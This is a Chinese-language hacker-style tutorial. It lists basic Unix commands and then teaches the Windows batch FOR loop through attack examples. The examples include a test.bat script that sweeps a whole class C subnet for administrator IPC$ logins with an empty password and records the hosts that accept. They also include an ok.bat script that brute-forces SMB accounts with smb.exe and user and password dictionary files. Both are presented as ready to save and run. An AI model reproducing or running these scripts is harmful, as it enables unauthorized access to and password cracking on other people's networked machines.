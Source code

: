  who 查询目前和你使用同一台机器的人以及Login时间地点 w 查询目前上机者的详细资料 whoami 查看自己的帐号名称 groups 查看某人的Group passwd 更改密码 history 查看自己下过的命令 ps 显示进程状态 kill 停止某进程 gcc 黑客通常用它来编译C语言写的文件 su 权限转换为指定使用者

 telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。 ftp ftp连接上某服务器（同win2K）

 

## 批处理命令与变量

 1：for命令及变量 基本格式： 
FOR /参数 %variable IN (set) DO command [command_parameters] 

%variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：
net use $">\\ip\ipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3 

(set):指定一个或一组文件，可使用通配符，如：
(D:\user.txt)和(1 1 254)(1 -1 254),{“(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1} command：指定对第个文件执行的命令，如：
net use命令；如要执行多个命令时，命令这间加：& 来隔开 

command_parameters：为特定命令指定参数或命令行开关 IN (set)：指在(set)中取值；DO command ：指执行command 参数：/L 指用增量形式{(set)为增量形式时}；/F 指从文件中不断取值，直到取完为止{(set)为文件时，如(d:\pass.txt)时}。 用法举例：
 @echo off echo 用法格式：
 test.bat *.*.* > test.txt for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \\%1.%%G /user:administrator | find "命令成功完成" >>test.txt 
 存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。 /L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
 
 @echo off echo 用法格式：ok.bat ip FOR /F %%i IN (D:\user.dic) DO smb.exe %1 %%i D:\pass.dic 200 存为：ok.exe 说明：输入一个IP后，用字典文件d:\pass.dic来暴解d:\user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。

 